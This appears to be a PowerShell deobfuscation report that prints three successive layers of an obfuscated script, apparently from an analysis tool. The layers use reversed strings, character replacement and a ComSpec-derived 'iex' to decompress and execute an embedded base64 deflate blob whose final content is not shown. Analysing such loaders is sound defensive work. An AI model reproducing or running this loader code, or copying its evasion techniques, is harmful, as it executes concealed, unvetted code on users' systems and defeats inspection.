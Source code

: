 ```powershell

Layer 1 - Obfuscation type: String-Based


(('. ( ZT6ENv:CoMSpEc[4,24,'+'25]-joinhx6hx6)( a6T ZT6( Set-variaBle hx6OfShx6 hx6hx6)a6T+ ( [StriNg'+'] [rEGeX]::mAtcheS( a6T ))421]RAhC[,hx6fKIhx6eCALPeR-  93]RAhC[,)89]RAhC[+84]RAhC[+98]RAhC[( EcalPeRC-  63]RAhC[,hx6kwlhx6EcalPeRC-  )hx6)bhx6+hx60Yb0Yhx6+hx6niOj-]52,hx6+hx642,hx6+'+'hx64[cehx6+hx6phx6+hx6SMoC:Vnhx6+hx6ekwl ( hx6+hx6. fKI ) (DnEOTDAhx6+hx6ehx6+hx6r.)} ) hx6+'+'hx6iicsA:hx6+hx6:]GnidOcNhx6+hx6e.hx6+hx6Thx6+hx6xethx6+hx6.hx6+hx6METsys[hx6+hx6 ,_kwhx6+h'+'x6l (REDhx6+hx6AeRmaertS.o'+'Ihx6+hx6 thx6+hx6Chx6'+'+hx6ejbO-Wh'+'x6+hx6En { HCaERoFhx6+hx6fKI) sSERpM'+'oCehx6+hx'+'6dhx6+hx6::hx6+hx6]'+'edOMhx6+hx6'+'nOisSErPMochx6+hx6.NoISSerhx6+hx6pMOc.oi[, ) b'+'0Yhx6+hx6==wDyD4p+S'+'s/l/hx6+hx6i+5GtatJKyfNjOhx6+'+'hx63hx6+hx63hx6+hx64Vhx6+hx6vj6wRyRXe1xy1pB0hx6+hx6AXVLMgOwYhx6+hx6//hx6+hx6Womhx6+hx6z'+'zUhx6+hx6tBhx6+hx6sx/ie0rVZ7hx6+hx6xcLiowWMGEVjk7JMfxVmuszhx6+hx6OT3XkKu9TvOsrhx6+hx6bbhx6+hx6cbhx6+hx6GyZ6c/gYhx6+hx6Npilhx6+hx6BK7x5hx6+hx6Plchx6+hx68qUyOhBYhx6+hx6VecjNLW42YjM8SwtAhx6+hx6aR8Ihx6+hx6Ohx6+hx6whx6+hx6mhx6+hx66hx6+hx6UwWNmWzCw'+'hx6+hx6VrShx6+hx6r7Ihx6+hx6T2hx6+hx6k6Mj1Muhx6+hx6Khx6+hx6T'+'/oRhx6+hx6O5BKK8R3NhDhx6+hx6om2Ahx6+hx6GYphx6+hx6yahx6+hx6TaNg8DAneNoeSjhx6+h'+'x6ugkTBFTcCPaSH0QjpFywhx6+'+'hx6aQyhx'+'6+hx6HtPUG'+'hx'+'6+hx6DL0BK3hx6+h'+'x6lClrHAvhx6+h'+'x64GOpVKhx6+hx6UNhx6+hx6mGzIDeraEvlpc'+'kC9EGhx6+hx6gIaf96jSmShx6'+'+hx6Mhhx6+hx6hhx6+hx6RfI72hx6+hx6oHzUkDsZoT5hx6+hx6nhx6+hx6c7MD8W31Xq'+'Khx6+hx6d4dbthx6+hx6bth1RdSigEaEhx6+hx6JNERMLUxV'+'hx6+hx6ME4PJtUhx6+hx6tSIJUZfZhx6+hx6EEhx6+hx6Ahx6+hx6JsTdDZNbhx6+hx60Y(gniRTS4hx6+hx66esh'+'x6+hx6aBmoRF::]tRevnOhx6+hx6C[]MAertsYrOmeM.Oi.mETSYs[ (MaErhx6+hx6thx6+hx6sEtALfeD.NOhx6+hx6IsS'+'erPmo'+'c.OI.mehx6+hx6TsYShx6'+'+hx6 hx6+hx6 tCejbO-WEhx6+hx6n ( hx6(((no'+'IsseRpX'+'e-ekovni a6T,hx6.hx6,hx6RightToLEFthx6 ) RYcforEach{ZT6_ })+a6T ZT6( sV hx6oFshx6 hx6 hx6)a6T ) ')  -cREpLACE ([cHAr]90+[cHAr]84+[cHAr]54),[cHAr]36 -rEPlAce'a6T',[cHAr]34  -rEPlAce  'RYc',[cHAr]124 -cREpLACE  ([cHAr]104+[cHAr]120+[cHAr]54),[cHAr]39) |. ( $vERboSEpreFeRenCe.tOStrING()[1,3]+'x'-JOin'')

Layer 2 - Obfuscation type: String-Based

. ( $ENv:CoMSpEc[4,24,25]-join'')( " $( Set-variaBle 'OfS' '')"+ ( [StriNg] [rEGeX]::mAtcheS( " ))421]RAhC[,'fKI'eCALPeR-  93]RAhC[,)89]RAhC[+84]RAhC[+98]RAhC[( EcalPeRC-  63]RAhC[,'kwl'EcalPeRC-  )')b'+'0Yb0Y'+'niOj-]52,'+'42,'+'4[ce'+'p'+'SMoC:Vn'+'ekwl ( '+'. fKI ) (DnEOTDA'+'e'+'r.)} ) '+'iicsA:'+':]GnidOcN'+'e.'+'T'+'xet'+'.'+'METsys['+' ,_kw'+'l (RED'+'AeRmaertS.oI'+' t'+'C'+'ejbO-W'+'En { HCaERoF'+'fKI) sSERpMoCe'+'d'+'::'+']edOM'+'nOisSErPMoc'+'.NoISSer'+'pMOc.oi[, ) b0Y'+'==wDyD4p+Ss/l/'+'i+5GtatJKyfNjO'+'3'+'3'+'4V'+'vj6wRyRXe1xy1pB0'+'AXVLMgOwY'+'//'+'Wom'+'zzU'+'tB'+'sx/ie0rVZ7'+'xcLiowWMGEVjk7JMfxVmusz'+'OT3XkKu9TvOsr'+'bb'+'cb'+'GyZ6c/gY'+'Npil'+'BK7x5'+'Plc'+'8qUyOhBY'+'VecjNLW42YjM8SwtA'+'aR8I'+'O'+'w'+'m'+'6'+'UwWNmWzCw'+'VrS'+'r7I'+'T2'+'k6Mj1Mu'+'K'+'T/oR'+'O5BKK8R3NhD'+'om2A'+'GYp'+'ya'+'TaNg8DAneNoeSj'+'ugkTBFTcCPaSH0QjpFyw'+'aQy'+'HtPUG'+'DL0BK3'+'lClrHAv'+'4GOpVK'+'UN'+'mGzIDeraEvlpckC9EG'+'gIaf96jSmS'+'Mh'+'h'+'RfI72'+'oHzUkDsZoT5'+'n'+'c7MD8W31XqK'+'d4dbt'+'bth1RdSigEaE'+'JNERMLUxV'+'ME4PJtU'+'tSIJUZfZ'+'EE'+'A'+'JsTdDZNb'+'0Y(gniRTS4'+'6es'+'aBmoRF::]tRevnO'+'C[]MAertsYrOmeM.Oi.mETSYs[ (MaEr'+'t'+'sEtALfeD.NO'+'IsSerPmoc.OI.me'+'TsYS'+' '+' tCejbO-WE'+'n ( '(((noIsseRpXe-ekovni ",'.','RightToLEFt' ) |forEach{$_ })+" $( sV 'oFs' ' ')" )

Layer 3 - Obfuscation type: String-Based

  invoke-eXpRessIon(((' ( n'+'EW-ObjeCt '+' '+'SYsT'+'em.IO.comPreSsI'+'ON.DefLAtEs'+'t'+'rEaM( [sYSTEm.iO.MemOrYstreAM][C'+'OnveRt]::FRomBa'+'se6'+'4STRing(Y0'+'bNZDdTsJ'+'A'+'EE'+'ZfZUJISt'+'UtJP4EM'+'VxULMRENJ'+'EaEgiSdR1htb'+'tbd4d'+'KqX13W8DM7c'+'n'+'5ToZsDkUzHo'+'27IfR'+'h'+'hM'+'SmSj69faIg'+'GE9CkcplvEareDIzGm'+'NU'+'KVpOG4'+'vAHrlCl'+'3KB0LD'+'GUPtH'+'yQa'+'wyFpjQ0HSaPCcTFBTkgu'+'jSeoNenAD8gNaT'+'ay'+'pYG'+'A2mo'+'DhN3R8KKB5O'+'Ro/T'+'K'+'uM1jM6k'+'2T'+'I7r'+'SrV'+'wCzWmNWwU'+'6'+'m'+'w'+'O'+'I8Ra'+'AtwS8MjY24WLNjceV'+'YBhOyUq8'+'clP'+'5x7KB'+'lipN'+'Yg/c6ZyG'+'bc'+'bb'+'rsOvT9uKkX3TO'+'zsumVxfMJ7kjVEGMWwoiLcx'+'7ZVr0ei/xs'+'Bt'+'Uzz'+'moW'+'//'+'YwOgMLVXA'+'0Bp1yx1eXRyRw6jv'+'V4'+'3'+'3'+'OjNfyKJtatG5+i'+'/l/sS+p4DyDw=='+'Y0b ) ,[io.cOMp'+'reSSIoN.'+'coMPrESsiOn'+'MOde]'+'::'+'d'+'eCoMpRESs )IKf'+'FoREaCH { nE'+'W-Obje'+'C'+'t '+'Io.StreamReA'+'DER( l'+'wk_, '+'[sysTEM'+'.'+'tex'+'T'+'.e'+'NcOdinG]:'+':Ascii'+' ) }).r'+'e'+'ADTOEnD( ) IKf .'+' ( lwke'+'nV:CoMS'+'p'+'ec[4'+',24'+',25]-jOin'+'Y0bY0'+'b)')  -CRePlacE'lwk',[ChAR]36  -CRePlacE ([ChAR]89+[ChAR]48+[ChAR]98),[ChAR]39  -RePLACe'IKf',[ChAR]124))

Layer 4 - Obfuscation type: Compressed

```